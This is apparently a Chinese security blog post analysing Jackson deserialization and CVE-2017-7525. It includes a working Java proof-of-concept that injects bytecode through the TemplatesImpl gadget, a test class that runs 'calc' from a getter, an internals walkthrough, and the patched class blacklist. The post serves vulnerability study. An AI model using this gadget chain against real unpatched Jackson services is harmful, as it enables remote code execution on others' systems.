

## 序列化与反序列化

```java
ObjectMapper mapper = new ObjectMapper();

String json = mapper.writeValueAsString(obj);    //序列化

Obj obj2 = mapper.readValue(json, Obj.class);  //反序列化
```

`jackson`反序列化时必须要指明`class`,并且会调用`setters`,如果不存在此方法,则通过反射进行赋值


## jackson序列化的多态模式

当一个类的属性为一个对象的时候，属性中所标记的类名，不⼀定就是其实例化的类，有可能标记的是⽗类，或⽗类的⽗类，更有可能是其接⼝。此时正常情况下Jackson则⽆法正常反序列化。

开启多态的序列化与反序列化,需要开启`Default Typing`机制

```java
objectMapper.enableDefaultTyping();
```

> 如果开启了Default Typing，则如果序列化的对象属性中有对象，则该属性值是⼀个数组，索引为0表明该对象所表示的类，索引1表示该对象的属性以及属性值。
>
> 序列化和反序列化，如果属性为对象，则会继续调⽤此对象的get和set⽅法为此对象属性赋值，与正常情况⼀样，相当于⼀次递归。

## 反序列化进行攻击

正常情况下,我们只能调用`readValue`第二个参数类中的方法

如果此时`ObjectMapper`开启了`Default Typing`，我们则可以将攻击难度降低。这里分两种情况,第二个参数为`Object.class`和`Another.class`

当参数为`Object.class`时,我们可以直接找含有恶意set类的class进行一个反序列化。如果参数为`Another.class`,我们则需要找到内部的一个Object类型的field,然后可以对其进行任意的赋值


## @JsonTypeInfo注解

@JsonTypeInfo注解是Jackson多态类型绑定的一种方式，支持下面5种类型的取值：

```
@JsonTypeInfo(use = JsonTypeInfo.Id.NONE)
@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
@JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)
@JsonTypeInfo(use = JsonTypeInfo.Id.NAME)
@JsonTypeInfo(use = JsonTypeInfo.Id.CUSTOM)
```

@JsonTypeInfo注解设置为如下值之一并且修饰的是Object类型的属性时，可以利用来触发Jackson反序列化漏洞：

- JsonTypeInfo.Id.CLASS
- JsonTypeInfo.Id.MINIMAL_CLASS

# CVE-2017-7525TemplatesImpl

## 影响版本:

Jackson 2.6系列 < 2.6.7.1

Jackson 2.7系列 < 2.7.9.1

Jackson 2.8系列 < 2.8.8.1

JDK使用1.7版本的，不能使用1.8版本，具体原因后面章节会分析到。

## EXP

```java
package TemplatesImpl;

public class AnotherClass {

        public Object object;

}
```


```java
package TemplatesImpl;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.sun.org.apache.xml.internal.security.utils.Base64;
import org.springframework.util.FileCopyUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class Poc {
    public static void main(String[] args)  {
        String exp = readClassStr("./target/classes/TemplatesImpl/Exploit.class");
        String jsonInput = aposToQuotes("{\"object\":['com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',\n" +
                "{\n" +
                "'transletBytecodes':['"+exp+"'],\n" +
                "'transletName':'Yasax1',\n" +
                "'outputProperties':{}\n" +
                "}\n" +
                "]\n" +
                "}");
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        AnotherClass anotherClass;
        try {
            anotherClass = mapper.readValue(jsonInput, AnotherClass.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls){
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        try {
            FileCopyUtils.copy(new FileInputStream(new File(cls)),byteArrayOutputStream);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encode(byteArrayOutputStream.toByteArray());
    }
}
```

## 触发流程


`this._typeFactory.constructType` ⽅法中，会通过传⼊的第⼆个参数获取⼀个Type对象。跟进`this._typeFactory.constructType`


`findWellKnownSimple`方法会判断我们的传入的class是否为那几个基础的class.如果不是,则返回null。


`this._typeCache.get(rawType)`中会从缓存中获取Type,因为我们这里是第一次加载该类。返回null.

接着便进行一系列的判断(是否为数组,接口,Properties类),最后在this._newSimpleType中来创建一个Type对象。


最终返回


接着回到`readValue`方法,进入`_readMapAmdClose`方法


首先会获取一个JsonToken,表明当前JSON字符串解析的位置,代表的意义如下:

> NOT_AVAILABLE((String)null, -1),
>
> START_OBJECT("{", 1),
>
> END_OBJECT("}", 2),
>
> START_ARRAY("[", 3),
>
> END_ARRAY("]", 4),
>
> FIELD_NAME((String)null, 5),
>
> VALUE_EMBEDDED_OBJECT((String)null, 12),
>
> VALUE_STRING((String)null, 6),
>
> VALUE_NUMBER_INT((String)null, 7),
>
> VALUE_NUMBER_FLOAT((String)null, 8),
>
> VALUE_TRUE("true", 9),
>
> VALUE_FALSE("false", 10),
>
> VALUE_NULL("null", 11);

然后进行一些基础的配置,创建上下文之类的。

接着使用`_findRootDeserializer`去获取`Deserializer`,跟进去


因为这是我们第一次加载,并没有将其存入缓存,跟进`findRootValueDeserializer`


这里也是先尝试从缓存中获取,如果获取不到,会调用`_createAndCacheValueDeserializer` 去创建⼀个 `Deserializer` 并对其进⾏缓存。跟进去


跟进该方法




这里会进行一些判断,然后进入`buildBeanDeserializer`方法

关键在`addBeanProps`方法


在这⾥会先判断是否开启了 `useGettersAsSetters` 这个选项，默认为 true ，随后会通过 `filterBeanProps` ⽅法获取所有的Prop，也就是属性，这⾥不仅会获取到属性，还会获取到他们在类中⼀些绑定的⽅法，⽐如 `get` 、 `set`等。

### 关键点

然后循环遍历我们的获取的属性和方法,接着来到这三个if判断


> 在第⼀个与第⼆个都不满⾜的时候，才会把 get 作为 set 去调⽤，第⼀个判断⽤于判断该属性是否有 Setter 。第二个是该对象中是否有该field(会将对象中的所有getter去掉get前缀判断是否有对应的field)，有则返回true,第三个判断则是当第⼀个判断与第⼆个判断都不满⾜时，且有对应的get时,它会在反序列化该属性时将 get 当作 set 来使⽤。(并不是通过判断的方法就会被调用,具体还要看我们的反序列化字符串中是否需要反序列化该field)

> 但是第三个判断有一个需要注意的点
>
> 第三个if中有这样一段代码:
>
> ```java
> if (Collection.class.isAssignableFrom(rawPropertyType)||Map.class.isAssignableFrom(rawPropertyType)) {
>     prop = this.constructSetterlessProperty(ctxt, beanDesc, propDef);
> }
> ```
>
> 如果我们这个getter的返回类型不能强制转换为Collection或者Map类型(返回对象为他们的子类？)
>
> 那也是无法触发的,我们的getOutputProperties()方法返回类型为Properties(继承于Map),该对象中是有一个_outputProperties,但是是没有outputProperties成员的。这也是我们后面能够触发该getter的关键。


这里我们的object是一个field,我们进入了第二个判断(第二种判断是调用反射来赋值)

回到`_readMapAndClose()`


`BeanDeserializer#vanillaDeserialize()`会对我们的数据进行处理


调用`FieldProperty#deserializeAndSet`对object进行解析

接着就是和签名差不多的操作,又来到了这三个判断,这里我们可以看到我们反序列化需要调用的get方法此时被加入到了


这里前面几个成员会通过`MethodProperty#deserializeAndSet`调用set方法通过反射进行赋值


最后调用`getoutputProperties`成功触发

## 测试

自己拿来测试的代码,可能可以帮助一下大家理解

```java

import com.fasterxml.jackson.databind.ObjectMapper;

public class readValue {
    public static void main(String[] args) throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        String json="{\"if1setter\":\"setter\",\"if3getter\":\"getter\"}";
        class2 cl2 = mapper.readValue(json, class2.class);  //反序列化
    }
}

```

```java
import java.io.IOException;
import java.util.HashMap;

//此外关于进入第二种判断通过反射来进行赋值的也可以自己修改一下代码进行调试,当我们的权限不够时,是无法通过反射赋值的
public class class2 {

    public String if1setter=null;
 //  final String if3getter=null;         //去除注释后无法执行命令

    public void setIf1setter(String if1setter) {
        System.out.println("if1setter!!!");
        this.if1setter = if1setter;
    }
    public HashMap getIf3getter() throws IOException {  //返回类型改成String无法触发命令
        Runtime.getRuntime().exec("calc");
        return new HashMap();
    }

    public class2() {}
}
```

## 为什么高版本JDK无法使用

之前在分析CC3的时候我记得我曾这样说过(其实这里说错了,因为readObject的过程中会对\_tfactory赋值,所以这里\_tfactory是可以不赋值的,但是jackson反序列化并不会触发readObject,\_tfactory=null会报错)


这里如果_tfactory返回为null的话会抛出异常

那么如何设置这个`_factory`属性呢？我们在PoC中随便填入如`'_factory':{},`，会看到如下错误信息：

```
com.fasterxml.jackson.databind.exc.UnrecognizedPropertyException: Unrecognized field "_factory" (class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl), not marked as ignorable (5 known properties: "uriresolver", "transletBytecodes", "outputProperties", "transletName", "stylesheetDOM"])
```

可以看到，这个错误是`Jackson.databind`报的，说的是`TemplatesImpl`类已知的只有5个配置项，即`"uriresolver", "transletBytecodes", "outputProperties", "transletName", "stylesheetDOM"`。

在里面没有看到tfactory相关字样，也就是说，**Jackson压根就不支持我们在序列化的TemplatesImpl类的内容上添加并解析_tfactory属性**。

## 修复

这里将jackson-databind-2.7.9换成jackson-databind-2.7.9.1。

尝试运行会报错如下，显示因为某些安全原因禁止了该类的加载：

```
com.fasterxml.jackson.databind.JsonMappingException: Illegal type (com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl) to deserialize: prevented for security reasons
```

调试分析，在调用BeanDeserializerFactory.createBeanDeserializer()函数创建Bean反序列化器的时候，其中会调用checkIllegalTypes()函数提取当前类名，然后使用黑名单进行过滤：


黑名单:

```
static {
    Set<String> s = new HashSet<String>();
    // Courtesy of [https://github.com/kantega/notsoserial]:
    // (and wrt [databind#1599]
    s.add("org.apache.commons.collections.functors.InvokerTransformer");
    s.add("org.apache.commons.collections.functors.InstantiateTransformer");
    s.add("org.apache.commons.collections4.functors.InvokerTransformer");
    s.add("org.apache.commons.collections4.functors.InstantiateTransformer");
    s.add("org.codehaus.groovy.runtime.ConvertedClosure");
    s.add("org.codehaus.groovy.runtime.MethodClosure");
    s.add("org.springframework.beans.factory.ObjectFactory");
    s.add("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
    DEFAULT_NO_DESER_CLASS_NAMES = Collections.unmodifiableSet(s);
}
```

# 参考

https://www.mi1k7ea.com/2019/11/16/Jackson%E7%B3%BB%E5%88%97%E4%BA%8C%E2%80%94%E2%80%94CVE-2017-7525%EF%BC%88%E5%9F%BA%E4%BA%8ETemplatesImpl%E5%88%A9%E7%94%A8%E9%93%BE%EF%BC%89/

p1g3师傅的jackson分析

